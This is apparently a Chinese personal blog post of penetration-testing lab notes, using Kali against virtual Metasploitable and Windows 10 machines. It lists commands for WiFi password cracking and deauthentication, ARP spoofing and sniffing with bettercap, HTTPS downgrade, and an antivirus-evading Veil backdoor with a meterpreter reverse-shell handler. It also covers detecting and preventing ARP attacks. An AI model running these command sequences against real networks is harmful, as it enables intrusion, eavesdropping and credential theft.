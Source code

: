 ```yaml
---
layout: post
title: 資訊安全/滲透測試
date: 2022-12-02 23:05 +0800
---
```


## 前言
以下是我在網路上學到的對資安有幫助技能與觀念,在這邊整理一下學習過程    
主要藉由了解如何"實際"進行網路攻擊,從而理解哪些地方可能會有資安疑慮


## 事前準備

<h3>1.VM軟體:  </h3>
<h6>VMware或VirtualBox都行</h6>  
<h3>2.kali linux:  </h3>  
<h6>在VM上執行，扮演攻擊者的角色</h6>
kali官網：[https://www.kali.org/get-kali/#kali-platforms](https://www.kali.org/get-kali/#kali-platforms)
<h3>3.Metasploitable: </h3>   
<h6>在VM上執行，扮演受害者的角色  </h6>
Metasploitable VM下載點:[https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)
<h3>4.Win10:  </h3>  
<h6>在VM上執行，扮演受害者的角色  </h6>
Win10 VM下載點:[https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
<h3>5.USB無線網卡: </h3>   
  如果可調整成Monitor模式，可以實作破解WIFI密碼手法，  
  這邊紀錄的網路攻擊，都是建立在攻擊方與受害方在同個網路之下為前提  
  不能調整成Monitor模式的話也沒關係，畢竟用VM和USB無線網卡，模擬測試時攻擊者和受害者一定會在同個網路底下  
  

## WIFI密碼破解，無Monitor模式請略過

### 檢查有無支援Monitor模式
1.在VM開啟kali linux後,插入USB網卡
使用「iw list」，確認有無支援Monitor模式
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/1.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    iw list


### 修改網卡Mac的方式 (可省略)
1.插入Usb無線網卡，並使用ifconfig指令，確定有出現wlan
如圖我出現的是wlan0
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/3.png){: width="600" height="500" }

2.修改Mac號碼的方式
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/2.png){: width="600" height="500" }
Step1.停用網卡
<script  type='text/javascript' src=''>

    ifconfig wlan0 down

Step2.設定新的Mac號碼
<script  type='text/javascript' src=''>

    ifconfig wlan0 hw ether 00:11:22:33:44:55

Step3.起用網卡
<script  type='text/javascript' src=''>

    ifconfig wlan0 up

### 設定為監聽模式
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/4.png){: width="600" height="500" }
iwconfig
<script  type='text/javascript' src=''>

    iwconfig

ifconfig wlan0 down
<script  type='text/javascript' src=''>

    ifconfig wlan0 down

airmon-ng check kill
<script  type='text/javascript' src=''>

    airmon-ng check kill 

iwconfig wlan0 mode monitor
<script  type='text/javascript' src=''>

    iwconfig wlan0 mode monitor

ifconfig wlan0 up
<script  type='text/javascript' src=''>

    ifconfig wlan0 up

ifconfig wlan0 down
<script  type='text/javascript' src=''>

    ifconfig wlan0 down

### 監聽模式下-偵測周圍網路

使用airodump可以監聽周圍WIFI
監聽2.4G頻寬的WIFI指令
<script  type='text/javascript' src=''>

    airodump-ng wlan0

監聽5G頻寬的 WIFI
<script  type='text/javascript' src=''>

    airodump-ng --band a wlan0

監聽5G和2.4G頻寬的WIFI
<script  type='text/javascript' src=''>

    airodump-ng --band abg wlan0
<p>指令成功後，大概會長這樣</p>
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/5.png){: width="600" height="500" }
### WIFI加密的意義

監聽特定WIFI的，並將其封包內容儲存到檔案中
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/6.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    airodump-ng --bssid MacNo --channel 149 --write FilePath wlan0

使用ls可以看到剛剛儲存的檔案
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/6-1.png){: width="600" height="500" }

使用Wireshark開啟剛剛另存的Cap檔
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/7.png){: width="600" height="500" }

開啟Cap檔後，可以看到傳輸內容，但內容已經過加密
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/8.png){: width="600" height="500" }

### WIFI密碼破解,by WPS功能

使用指令確認WPS功能是否開啟，並找到Bssid
<script  type='text/javascript' src=''>

    wash --interface wlan0

使用aireplay建立關聯性
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/10.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    aireplay-ng --fakeauth 30 -a Source_Mac -h Target_Mac wlan0

使用reaver暴力破解WPS PING
備註:這部分會需要等待一段時間
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/9.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    reaver --bssid Target_Mac --channel 5 --interface wlan0 -vvv --no-associate

### WIFI密碼破解,by handshake

每當有人連上WIFI時,路由器基於handshake協定發送封包，主要建立彼此的連線，  
這邊則在監聽指定WIFI，透過監聽封包來獲取能夠建立連線封包資訊

![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/001.png){: width="600" height="500" }  
可以使用airodump監聽特定WIFI，並將其監聽結果解入到特定檔案中，指令如下  
<script  type='text/javascript' src=''>

    airodump-ng --bssid MacNo --channel 5 --write handshake_File wlan0

也可以使用deauth指令斷開某個設備與路由器間的網路連線  
這邊發送4個封包,會馬上斷開,馬上重新連線，所以體感不會有甚麼感覺，但如果設定太大會讓人查覺到網路有異常
<script  type='text/javascript' src=''>

    aireplay-ng --deauth 4 -a 路由器Mac -c 目標設備Mac wlan0

使用crunch指令,將密碼組合排列產生到檔案中  
如下指令意思是,使用「a,b,c,1,2,3」組成3碼到8碼字串,並將這些可能的組合儲存到textP.TXT中
<script  type='text/javascript' src=''>

    crunch 3 8 abc123 -o textP.TXT


最後，需要使用aircrack，能利用handshake_File.cap與textP.TXT進行暴力破解密碼
<script  type='text/javascript' src=''>

    aircrack-ng handshake_File-01.cap -w textP.TXT

破解成功後,百分比就會停止了
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/002.png){: width="600" height="500" }

## 尋找同個網路下的連線
在kali linux透過指令找到所有有連接到WIFI的設備
1.透過ifconfig指令,確認kali的網路設備的IP
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/11.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    ifconfig

2.搜尋「與USB網卡(Wlan0)在同個網段的所有設備」  
我這邊的要找的是有連到192.168.50.1到192.168.50.254，使用的指令與結果如下
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/12.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    netdiscover -r 192.168.50.1/24 -i wlan0

3.安裝NMPA或ZENMAP，用來獲取設備資訊  
  ZENMAP為NMPA的GUI介面
  ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/13.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    ZENMAP

### Ping scan
對Target的設備發出Ping 指令，獲取該設備的Mac Address與供應商  
例如我想搜尋192.168.50.1到192.168.50.254的所有設備，所以在Target打的是192.168.50.1/24
  ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/14.png){: width="600" height="500" }

### Quick scan
  資訊的詳細程度,在Ping scan之上,還多顯示了Port的狀態
  ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/15.png){: width="600" height="500" }

### Quick scan Plus
資訊的詳細程度,在Quick scan之上,還多顯示了Port的所對應到的服務內容、是甚麼設備、及其作業系統等等
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/16.png){: width="600" height="500" }


## 使用ARP欺騙攻擊
### 連線示意圖
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/17.png){: width="600" height="500" }

### 使用一般的指令來建立連線
要進行ARP欺騙,首先會需要知道目標IP  
這邊開啟我準備了另一個Win10透過，先透過「arp -a」來直接獲取需要的IP:192.168.248.129  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/18.png){: width="600" height="500" }

在Kali開啟"兩個"cmd視窗，使用arpspoof開始模擬ARP欺騙攻擊  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/19.png){: width="600" height="500" }
<script  type='text/javascript' src=''>

    arpspoof -i eth0 -t  偽裝IP 目標IP


在上述指令執行後，在Win10系統的CMD執行一次「ARP -a」  
可以明顯看到MAC的變化  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/20.png){: width="600" height="500" }

最後如果Kali電腦沒有執行轉發指令,會導致一般User無法收到路由器的Request而無法正常上網
<script  type='text/javascript' src=''>

    echo 1 > /proc/sys/net/ipv4/ip_forward

### 使用bettercap套件來建立連線
啟動bettercap
<script  type='text/javascript' src=''>

    bettercap  -iface eth0


透過進行bettercap「ARP欺騙攻擊」的方式  
<script  type='text/javascript' src=''>

    set arp.spoof.fullduplex true
    set arp.spoof.targets 192.168.248.129 
    arp.spoof on



可以將指令打在文字檔,並另文為cap檔
(檔案存在root底下比較容易直接呼叫執行)
做成腳本來執行指令  
 
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/21.png){: width="600" height="500" }
透過cap檔執行的指令
<script  type='text/javascript' src=''>

    bettercap -iface eth0 -caplet spoof.cap



使用net.sniff模組的功能
<script  type='text/javascript' src=''>

    net.sniff on

可以用來監聽/解析封包，如果搭配「ARP欺騙」攻擊，可以知道用戶端瀏覽網頁的操作狀況  
如果瀏覽的網頁是http 甚至可以直接擷取到輸入的帳號及密碼  


### 在kali開啟網路熱點來建立連線
讓其他電腦使用kali建立的熱點進行網路連線，也能讓連線狀態變成這樣  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/17_1.png){: width="600" height="500" }

而kali在中，就能直接透過WIRESHARK分析，擷取所有User所進行網路操作資料
下圖為kali建立的熱點時的樣子  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/22.png){: width="600" height="500" }
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/23.png){: width="600" height="500" }

## https降級攻擊
<p>>將https網頁 降級成 http網頁</p>
<p>降級原因：與其解析https的數據，不如將https降為http，解析http較為方便</p>
攻擊前置作業：[使用bettercap套件來建立連線](#使用bettercap套件來建立連線) or [使用一般的指令來建立連線](#使用一般的指令來建立連線)


執行net.sniff.local，用來偽裝成本地電腦，以便顯示本地電腦從http網頁中輸入的帳號密碼
<script  type='text/javascript' src=''>

    set net.sniff.loacl true


<p>使用hstshijack可以將用戶端瀏覽的Https網站降級成Http網站</p>
依每個網站的安全姓，當然不見得每個網站都會見效
<script  type='text/javascript' src=''>

    hstshijack/hstshijack 


<p>小記1:有些網站在降級之後無法顯示網頁是因為本地有設置HSTS，強迫這網頁一定只能用Https進入</p>
<p>小記2:如果使用"一開始就不是Https連線的瀏覽器"，就能解決「小記1」的問題（怪不得有些軟體會強制安裝新的不明瀏覽器</p>





## WIRESHARK 網路分析器
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/24.png){: width="600" height="500" }




## 偵測「ARP欺騙攻擊」的方式
### 下載XARP
 [載點](https://en.softonic.com/download/xarp/windows/post-download)  
 ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/25.png){: width="600" height="500" }  

 開啟XARP就會監聽IP及MAC，受到攻擊時就會跳出異常通知
 ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/26.png){: width="600" height="500" }  

 ### 下載WIRESHARK
 [載點]( https://www.wireshark.org/#download/)  
 開啟WIRESHARK，並勾選ARP Request 偵測  
  ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/27.png){: width="600" height="500" }  

  首頁會顯示每個網路口的流量
   ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/28.png){: width="600" height="500" }  

選擇要對應的網路口後，開始監測
 ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/29.png){: width="600" height="500" }  


監測時，若受到ARP攻擊，可以從分析資訊中看到跟ARP有關的警告字串
 ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/30.png){: width="600" height="500" }  

小記
ARP攻擊的手法，會與「arp -a」這個指令所看到的Phtsical Address(Mac號碼)息息相關  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/31.png){: width="600" height="500" }
如果Type為Daynamic，會讓Phtsical Address可以被人竄改，進而造成ARP攻擊成功
如果Type為Static，將不允許Phtsical Address進行變更，雖然得手動配置網路，但是可以不用擔心受到ARP攻擊

## 預防「ARP欺騙攻擊」的方式
1.使用VPN ,付費,資料不會被後台看到,就算看到了被加密過的資料,VPN廠商有心的話，可以看到原始資料，所以要慎選廠商
2.使用Https Everwhere =>免費,但僅適用於那些被降級成http的原https網站
3.上述兩者可以一起用,不衝突,安全程度會上升


用來幫助網管追蹤網路的工具

## 測試攻擊Metasploitable系統
安裝完Metasploitable後，可以使用ifconfig得到一個簡單的Server的IP  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/32.png){: width="300" height="250" }


使用ZENMAP來找這個Server開放的Port  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/33.png){: width="300" height="250" }



## 生成不會被發現的後門文件
<h1>測試生成1個後門文件，讓對方連進我們的Kali電腦中，藉此取得對方電腦控制權</h1>
### 安裝在Kali中安裝Veil Framework
安裝成功後，輸入Veil會產生的畫面
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/34.png){: width="300" height="250" }


### 生成後門文件
Step1.list
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/35.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    list 

Step2.使用Evation
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/36.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    use 1 


Step3.list
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/37.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    list


Step4.第15項,建立反向連結檔案  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/38.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    use 15


Step5.使用options可以看到所有可以設定的項目  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/39.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    options


Step5.使用set Name Value進行設定，設定完再執行一次options，確認是否更改成功  
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/40.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    set Name Value


step5.使用generate準備進行生成文件,設定文件名稱,執行完畢後就能到指定路徑看到檔案了
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/41.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    generate

step5.使用msfconsole模組進行,監聽連線
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/42.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    msfconsole

step5.use exploit/multi/handler
<script  type='text/javascript' src=''>

    use exploit/multi/handler

step5.在設定一次連線,並使用exploit指令進行監聽
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/43.png){: width="300" height="250" }
<script  type='text/javascript' src=''>

    set Name Value
    set payload windows/meterpreter/reverse_https
    exploit

step5.將檔案放在指定路徑，讓受害端可以下載檔案，測試被攻擊如何
 ![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/45.png){: width="300" height="250" }

step5.使用apache2開啟Server，讓受害端可以進行連線
<script  type='text/javascript' src=''>

    service apache2 start

step5.開啟Win10 看看能否連上剛剛設定的IP
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/44.png){: width="300" height="250" }

step5.下載檔案,進行並執行exe
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/46.png){: width="300" height="250" }

step5.win10執行後,kali就會捕獲到win10的連線
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/47.png){: width="300" height="250" }

step5.之後就能在kali控制win10的電腦了(使用指令操作win10)
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/48.png){: width="300" height="250" }


### 收集資訊的工具-Maltego

![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/49.png){: width="300" height="250" }


## XSS攻擊方式

### 反射型: Reflected-XSS
<p>可以對對方的Server,植入javascript代碼</p>
<p>實際植入的方式可能會向下圖這樣</p>
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/50.png){: width="300" height="250" }

### 儲存型: Stored-XSS  
<p>在留言板上面,打上javaScript代碼,讓javaScript存進資料庫</p>
<p>這樣每當其他用戶瀏覽網頁時,就能自動運行javaScript</p>
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/51.png){: width="300" height="250" }

## 漏洞分析工具
<p>ZAP</p>
<p>使用這個工具可以快速掃描網站可能存在的漏洞</p>
![Desktop View](/assets/img/2022-12-02-side-project-information-security-exercise/52.png){: width="300" height="250" }
